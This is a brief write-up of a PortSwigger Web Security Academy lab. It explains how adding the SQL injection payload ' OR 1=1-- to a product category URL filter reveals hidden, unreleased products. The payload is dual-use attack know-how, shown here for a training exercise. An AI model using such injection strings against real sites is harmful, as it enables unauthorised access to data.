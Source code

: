 [Source](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
## Challenge
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application executes a SQL query similar to the following:
```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the challenge, perform a SQL injection attack that will cause the application to display one or more unreleased products.
## Solution
Go to the website page

![image](images/20241130140538.png)

Select any category and look at the `URL` of the page

![image](images/20241130140700.png)

```URL
https://web-security-academy.net/filter?category=Accessories
```
To display all products, you need to supplement the `URL` like this:
```URL
https://web-security-academy.net/filter?category=Accessories# ' OR 1=1--
```

![image](images/20241130140829.png)
